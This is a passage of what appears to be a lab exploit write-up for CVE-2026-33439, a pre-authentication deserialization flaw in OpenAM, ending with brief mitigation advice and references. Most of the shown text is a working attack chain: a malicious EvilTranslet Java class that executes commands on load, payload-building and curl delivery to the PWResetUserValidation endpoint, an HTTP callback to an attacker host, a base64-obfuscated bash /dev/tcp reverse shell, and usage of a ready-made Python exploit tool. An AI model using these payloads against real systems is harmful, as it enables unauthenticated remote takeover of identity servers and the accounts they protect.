CP=/work/openam-core-16.0.5.jar:/work/xalan-2.7.3.jar:/work/serializer-2.7.3.jar:/work/click-nodeps-2.3.0.jar:/work/click-extras-2.3.0.jar:/work/servlet-api.jar:/work

javac -cp $CP /work/EvilTranslet.java

java --add-opens java.base/java.util=ALL-UNNAMED --add-opens java.base/java.lang.reflect=ALL-UNNAMED -cp $CP PayloadBuilder /work/EvilTranslet.class > /work/payload_http.b64

PAYLOAD=$(cat /work/payload_http.b64)

curl -sk -G "http://openam.lab.local:8080/openam/ui/PWResetUserValidation" --data-urlencode "jato.clientSession=${PAYLOAD}" | grep "jato."
```

If RCE is working, Terminal 1 receives an incoming HTTP connection from the OpenAM server:

```
nc -lvnp 9999
listening on [any] 9999 ...
connect to [10.13.37.2] from (UNKNOWN) [10.13.37.3] 51992
GET /pwned HTTP/1.1
Host: attacker:9999
User-Agent: curl/8.5.0
Accept: */*
```

**Write a file artefact**

<p align="center">
	
</p>

```
cat > /work/EvilTranslet.java << 'EOF'
import org.apache.xalan.xsltc.TransletException;
import org.apache.xalan.xsltc.runtime.AbstractTranslet;
import org.apache.xml.dtm.DTMAxisIterator;
import org.apache.xml.serializer.SerializationHandler;
import org.apache.xalan.xsltc.DOM;

public class EvilTranslet extends AbstractTranslet {
	static {
		try {
			Runtime.getRuntime().exec(new String[]{"touch", "/tmp/pwned"});
		} catch (Exception ignored) {}
	}
	public void transform(DOM d, SerializationHandler[] h) throws TransletException {}
	public void transform(DOM d, DTMAxisIterator i, SerializationHandler h) throws TransletException {}
}
EOF

CP=/work/openam-core-16.0.5.jar:/work/xalan-2.7.3.jar:/work/serializer-2.7.3.jar:/work/click-nodeps-2.3.0.jar:/work/click-extras-2.3.0.jar:/work/servlet-api.jar:/work

javac -cp $CP /work/EvilTranslet.java

java --add-opens java.base/java.util=ALL-UNNAMED --add-opens java.base/java.lang.reflect=ALL-UNNAMED -cp $CP PayloadBuilder /work/EvilTranslet.class > /work/payload_file.b64

PAYLOAD=$(cat /work/payload_file.b64)

curl -sk -G "http://openam.lab.local:8080/openam/ui/PWResetUserValidation" --data-urlencode "jato.clientSession=${PAYLOAD}" | grep "jato."
```

Verify from PowerShell:

```
docker exec cve_2026_33439_openam ls -la /tmp/pwned
```

**Reverse shell**

<p align="center">
	
</p>

Terminal 1 - Listener:

```
docker exec -it cve_2026_33439_attacker bash

nc -lvnp 4444
```

Terminal 2 - Deliver:

```
docker exec -it cve_2026_33439_attacker bash

CMD='bash -i >& /dev/tcp/attacker/4444 0>&1'

B64CMD=$(echo "$CMD" | base64 -w 0)

cat > /work/EvilTranslet.java << EOF
import org.apache.xalan.xsltc.TransletException;
import org.apache.xalan.xsltc.runtime.AbstractTranslet;
import org.apache.xml.dtm.DTMAxisIterator;
import org.apache.xml.serializer.SerializationHandler;
import org.apache.xalan.xsltc.DOM;

public class EvilTranslet extends AbstractTranslet {
	static {
		try {
			Runtime.getRuntime().exec(new String[]{"bash", "-c", "echo ${B64CMD} | base64 -d | bash"});
		} catch (Exception ignored) {}
	}
	public void transform(DOM d, SerializationHandler[] h) throws TransletException {}
	public void transform(DOM d, DTMAxisIterator i, SerializationHandler h) throws TransletException {}
}
EOF

CP=/work/openam-core-16.0.5.jar:/work/xalan-2.7.3.jar:/work/serializer-2.7.3.jar:/work/click-nodeps-2.3.0.jar:/work/click-extras-2.3.0.jar:/work/servlet-api.jar:/work

javac -cp $CP /work/EvilTranslet.java

java --add-opens java.base/java.util=ALL-UNNAMED --add-opens java.base/java.lang.reflect=ALL-UNNAMED -cp $CP PayloadBuilder /work/EvilTranslet.class > /work/payload_shell.b64

PAYLOAD=$(cat /work/payload_shell.b64)

curl -sk -G "http://openam.lab.local:8080/openam/ui/PWResetUserValidation" --data-urlencode "jato.clientSession=${PAYLOAD}" | grep "jato."
```

---

<div id="exploitation_poc"/>

### ***PoC Tool Usage***

<p align="center">
	
</p>

The Python script automates the full chain: compiles EvilTranslet, builds the gadget chain via PayloadBuilder, encodes with URL-safe base64, and delivers.

```bash
# Copy JARs to the exploit directory first

[attacker@lab /work]$

touch Exploit_CVE_2026_33439.py

vi Exploit_CVE_2026_33439.py

python3 Exploit_CVE_2026_33439.py --help

python3 Exploit_CVE_2026_33439.py --url http://openam.lab.local:8080/openam --command "touch /tmp/pwned"

python3 Exploit_CVE_2026_33439.py --url http://openam.lab.local:8080/openam --command "bash -i >& /dev/tcp/attacker/4444 0>&1"

python3 Exploit_CVE_2026_33439.py --url http://openam.lab.local:8080/openam --command "bash -i >& /dev/tcp/attacker/4444 0>&1" --jars Jars/

python3 Exploit_CVE_2026_33439.py --url http://openam.lab.local:8080/openam --command "curl http://attacker:9999/pwned" --proxy http://127.0.0.1:8080
```


---
---
---


<div id="mitigation"/>

## ***🛡️ Mitigation***

- **Patch:** Upgrade to **OpenAM 16.0.6** or later. The fix extends WhitelistObjectInputStream to ClientSession.deserializeAttributes(), matching the protection already applied to ConsoleViewBeanBase.deserializePageAttributes() after CVE-2021-35464.


---
---
---


<div id="references"/>

## ***📚 References***

- **[CVE-2026-33439 - NVD](https://nvd.nist.gov/vuln/detail/CVE-2026-33439)**
> National Vulnerability Database entry for CVE-2026-33439.

- **[GitHub Security Advisory GHSA-2cqq-rpvq-g5qj](https://github.com/OpenIdentityPlatform/OpenAM/security/advisories/GHSA-2cqq-rpvq-g5qj)**
> Official advisory with root cause analysis, affected code, and gadget chain detail.

- **[CVE-2021-35464 - ForgeRock AM Pre-Auth RCE](https://nvd.nist.gov/vuln/detail/CVE-2021-35464)**
> The ancestor vulnerability that introduced WhitelistObjectInputStream for jato.pageSession.

- **[Pre-Auth RCE in ForgeRock OpenAM - PortSwigger Research](https://portswigger.net/research/pre-auth-rce-in-forgerock-openam-cve-2021-35464)**
> Original research on CVE-2021-35464 covering the JATO deserialization mechanism.

- **[CWE-502 - Deserialization of Untrusted Data](https://cwe.mitre.org/data/definitions/502.html)**
> MITRE CWE entry describing the vulnerability class.
